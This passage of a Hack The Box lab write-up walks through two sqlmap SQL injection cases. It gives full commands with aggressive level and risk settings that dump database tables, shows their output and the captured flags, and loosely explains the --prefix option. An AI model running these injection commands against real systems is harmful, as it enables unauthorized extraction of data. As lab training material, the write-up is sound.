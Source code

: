 ## Case 6
---
![](CYBERSECURITY/IMAGES/Pasted%20image%2020250204162741.png)

Do the same as before, we can do the following command:

```
python3 sqlmap.py -r case6.txt --batch --dump -T flag6 -D testdb --no-cast --level=5 --risk=3 --prefix='`)'
```

The `-prefix` flag allows us to specify a prefix to prepend to the extracted data.

We get the following output:

```
Database: testdb
Table: flag6
[1 entry]
+----+----------------------------------+
| id | content                          |
+----+----------------------------------+
| 1  | HTB{v1nc3_mcm4h0n_15_4570n15h3d} |
+----+----------------------------------+
```

Flag is `HTB{v1nc3_mcm4h0n_15_4570n15h3d}`

## Case 7
---

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250204162749.png)

For case 7, we do the following:

```
python3 sqlmap.py -r case7.txt --batch --dump -T flag7 -D testdb --no-cast --level=5 --risk=3 --union-cols=5 --dbms=MySQL
```

Since this case is about UNION SQLI, we need to use the `--union-cols` flag to specify the number of columns to be used during the SQLI, if we set this flag to 5, we are telling sqlmap that the vulnerable query returns 5 columns.

We get the following:

```
atabase: testdb
Table: flag7
[1 entry]
+----+-----------------------+
| id | content               |
+----+-----------------------+
| 1  | HTB{un173_7h3_un173d} |
+----+-----------------------+
```

Flag is `HTB{un173_7h3_un173d}`